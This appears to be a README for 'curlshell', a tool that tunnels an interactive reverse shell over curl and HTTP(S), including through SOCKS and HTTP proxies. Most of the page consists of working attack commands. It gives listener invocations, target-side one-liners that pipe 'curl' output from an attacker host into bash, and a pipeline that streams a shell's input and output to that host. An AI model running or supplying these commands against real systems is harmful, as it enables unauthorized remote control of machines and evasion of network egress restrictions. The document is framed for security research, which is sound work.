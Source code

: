 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell))

During security research, you may end up running code in an environment,
where establishing raw TCP connections to the outside world is not possible;
outgoing connection may only go through a connect proxy (HTTPS_PROXY).
This simple interactive HTTP server provides a way to mux 
stdin/stdout and stderr of a remote reverse shell over that proxy with the
help of curl.

Generate a SSL Certificate:
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | bash
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | bash
```

# How it works
The first cURL request pipes this into a bash:
```sh
stdbuf -i0 -o0 -e0 curl -X POST -sk https://1.2.3.4:8080/input \
    | bash 2> >(curl -sk -T - https://1.2.3.4:8080/stderr) \
    | curl -sk -T - https://1.2.3.4:8080/stdout
```

The bash then starts 3 cURL processes to connect stdin, stdout and stderr. HTTP's 'chunked transfer' does the rest.

